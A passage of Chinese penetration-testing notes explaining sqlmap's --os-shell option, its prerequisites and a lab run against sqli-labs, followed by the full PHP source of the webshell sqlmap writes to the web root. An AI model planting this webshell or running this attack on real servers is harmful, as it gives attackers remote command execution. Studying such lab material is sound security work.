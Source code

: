 ![image-20240410162404205](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162404205.png)

已经将webshell写入网站根目录了

 

 

 

 

--os-shell

原理

 

--os-shell就是使用udf提权获取WebShell。也是通过into oufile向服务器写入两个文件，一个可以直接执行系统命令，一个进行上传文件

 

此为sqlmap的一个命令，利用这条命令的先决条件：

 

1、要求为DBA，--is-dba（phpstudy搭建的一般为DBA）

2、secure_file_priv没有具体值

3、知道网站的绝对路径

4、GPC为off，php主动转义的功能关闭

 

使用

 

我们以sqli-labs第一关为例

 

sqlmap -u [*http://192.168.43.145/2_Shotting_Range/sql/Less-1/?id=1*](http://192.168.43.145/2_Shotting_Range/sql/Less-1/?id=1) --os-shell

 

![image-20240410162418399](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162418399.png)

 

sqlmap在指定的目录生成了两个文件（文件名是随机的，并不是固定的）：

 

tmpbeewq.php 用来执行系统命令

tmpuqvgw.php 用来上传文件

![image-20240410162429046](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162429046.png)

 

1\. tmpbeewq.php的文件内容为

 

\<?php \$c=\$\_REQUEST\["cmd"\];@set_time_limit(0);@ignore_user_abort(1);@ini_set("max_execution_time",0);\$z=@ini_get("disable_functions");if(!empty(\$z)){\$z=preg_replace("/\[, \]+/",',',\$z);\$z=explode(',',\$z);\$z=array_map("trim",\$z);}else{\$z=array();}\$c=\$c." 2\>&1\n";function f(\$n){global \$z;return is_callable(\$n)and!in_array(\$n,\$z);}if(f("system")){ob_start();system(\$c);\$w=ob_get_clean();}elseif(f("proc_open")){\$y=proc_open(\$c,array(array(pipe,r),array(pipe,w),array(pipe,w)),\$t);\$w=NULL;while(!feof(\$t\[1\])){\$w.=fread(\$t\[1\],512);}@proc_close(\$y);}elseif(f("shell_exec")){\$w=shell_exec(\$c);}elseif(f("passthru")){ob_start();passthru(\$c);\$w=ob_get_clean();}elseif(f("popen")){\$x=popen(\$c,r);\$w=NULL;if(is_resource(\$x)){while(!feof(\$x)){\$w.=fread(\$x,512);}}@pclose(\$x);}elseif(f("exec")){\$w=array();exec(\$c,\$w);\$w=join(chr(10),\$w).chr(10);}else{\$w=0;}echo"\<pre\>\$w\</pre\>";?\>
